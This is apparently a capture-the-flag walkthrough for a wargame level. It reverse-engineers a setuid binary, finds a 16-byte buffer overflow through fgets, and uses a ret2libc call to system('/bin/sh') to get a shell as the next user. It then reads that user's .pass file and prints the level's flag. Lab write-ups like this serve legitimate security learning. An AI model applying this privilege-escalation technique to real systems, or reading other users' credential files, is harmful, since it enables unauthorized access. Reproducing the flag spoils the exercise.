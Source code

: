 ## Level 01
## Source Code
![source.png](source.png)
## Walkthrough
- We will R.E the binary inside Ghidra.
- We found that the username is `dat_will` and the password is `admin`.
- No matter what, the program will print `incorrect password...` and return 1.
- We found that the buffer where the password is stored is vulnerable to a buffer overflow.
- Indeed, the buffer is only 16 bytes, but we can write up to 100 bytes through `fgets`.
- We will use this to call the glibc function `system` with `/bin/sh` as argument.
- This will spawn a thread as level02 because the set-uid bits is set in the permissions of `level01` binary. 
## Command use
    nm -D /lib32/libc.so.6  | grep system
    strings -t x -a /lib32/libc.so.6 | grep "/bin/sh"
## Answer
    python craft_payload.py (This will generate our payload to exploite the buffer overflow)
    cat payload - | ./level01
    cat /home/users/level02/.pass
## Flag
    PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv